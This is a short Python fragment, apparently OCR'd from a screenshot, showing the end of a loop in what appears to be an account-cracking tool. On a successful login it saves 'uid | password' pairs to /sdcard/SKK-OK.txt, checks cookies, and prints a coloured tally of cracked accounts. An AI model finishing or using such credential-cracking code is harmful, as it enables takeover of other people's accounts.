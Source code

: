                 cek_apk(session,coki)
                open('/sdcard/SKK-OK.txt', 'a').write(uid+' | '+ps+'\n')
                ok.append(uid)
                break
            else:
                continue
        loop+=1
        animasi = random.choice(["\x1b[1;91mSKK","\x1b[1;92mSKK","\x1b[1;93mSKK","\x1b[1;94mSKK","\x1b[1;95mSKK","\x1b[1;96mSKK","\x1b[1;97mSKK","\x1b[1;91mSKK","\x1b[1;92mSKK","\x1b[1;93mSKK","\x1b[1;94mSKK","\x1b[1;95mSKK","\x1b[1;96mSKK"])
        sys.stdout.write(f'\r    {P}[{animasi}{P}][{K}%s{P}/{B}%s{P}][{H}OK{P}]{P}[{H}%s{P}] \r'%(loop,tl,len(ok))),
        sys.stdout.flush()
    except:
        pass

#main()

#---------------------[END MENU]---------------------#
if __name__ == '__main__':
    main()
